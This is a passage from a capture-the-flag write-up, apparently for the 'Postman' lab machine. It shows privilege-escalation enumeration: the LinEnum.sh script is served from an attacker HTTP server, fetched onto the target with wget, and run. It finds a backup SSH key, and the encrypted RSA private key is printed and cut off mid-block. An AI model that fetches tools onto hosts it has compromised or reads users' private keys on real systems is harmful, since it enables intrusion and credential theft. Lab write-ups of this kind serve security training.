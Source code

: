 {% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/LinEnum.sh .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

{% highlight bash %}
redis@Postman:~$ wget http://10.10.XX.XX/LinEnum.sh
--2019-12-31 10:18:04--  http://10.10.XX.XX/LinEnum.sh
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46476 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                   100%[=============================================>]  45.39K  59.1KB/s    in 0.8s    

2019-12-31 10:18:05 (59.1 KB/s) - ‘LinEnum.sh’ saved [46476/46476]

{% endhighlight %}

Running `LinEnum.sh` shows that there is a `ssh` private key backup in `/opt` named `id_rsa.bak` owned by user `Matt`. Interesting...

{% highlight bash %}
redis@Postman:~$ ./LinEnum.sh
...
[-] Location and Permissions (if accessible) of .bak file(s):
-rwxr-xr-x 1 Matt Matt 1743 Aug 26 00:11 /opt/id_rsa.bak
-rw------- 1 root root 695 Aug 25 21:24 /var/backups/group.bak
-rw------- 1 root shadow 577 Aug 25 21:24 /var/backups/gshadow.bak
-rw------- 1 root shadow 935 Aug 26 03:50 /var/backups/shadow.bak
-rw------- 1 root root 1382 Aug 25 23:48 /var/backups/passwd.bak
...

redis@Postman:~$ cat /opt/id_rsa.bak
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W